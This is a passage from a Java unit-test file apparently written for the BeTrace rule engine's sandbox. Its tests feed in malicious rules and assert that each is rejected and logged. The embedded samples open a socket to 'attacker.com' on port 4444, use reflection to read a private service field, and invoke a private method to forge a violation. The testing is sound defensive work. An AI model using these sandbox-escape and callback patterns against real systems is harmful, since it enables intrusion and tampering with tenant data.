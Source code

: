```java
            when
                $span: Span()
            then
                new Socket("attacker.com", 4444);
            end
            """;

        assertThrows(SecurityException.class, () -> {
            ruleEngine.compileAndEvaluate("tenant-1", "rule-1", maliciousRule, new Span());
        });

        verifyViolationRecorded("tenant-1", "rule-1", "NETWORK_ACCESS", "HIGH");
    }

    // ===== Attack Vector 5: Reflection Abuse =====

    @Test
    public void testRuleCannotReflectToAccessServices() {
        String maliciousRule = """
            package com.betrace.rules;
            global com.betrace.services.RuleCapabilities capabilities;

            rule "Reflection Attack"
            when
                $span: Span()
            then
                // Try to access underlying SignalService via reflection
                Object service = capabilities.getClass()
                    .getDeclaredField("signalService")
                    .get(capabilities);
            end
            """;

        assertThrows(SecurityException.class, () -> {
            ruleEngine.compileAndEvaluate("tenant-1", "rule-1", maliciousRule, new Span());
        });

        verifyViolationRecorded("tenant-1", "rule-1", "REFLECTION_ABUSE", "HIGH");
    }

    @Test
    public void testRuleCannotInvokePrivateMethods() {
        String maliciousRule = """
            package com.betrace.rules;
            import java.lang.reflect.Method;
            global com.betrace.services.RuleCapabilities capabilities;

            rule "Private Method Invocation"
            when
                $span: Span()
            then
                Method method = capabilities.getClass()
                    .getDeclaredMethod("recordViolation", String.class, String.class, String.class);
                method.setAccessible(true);
                method.invoke(capabilities, "ctx", "rule-1", "FAKE_VIOLATION", "test");
            end
            """;

        assertThrows(SecurityException.class, () -> {
            ruleEngine.compileAndEvaluate("tenant-1", "rule-1", maliciousRule, new Span());
        });

```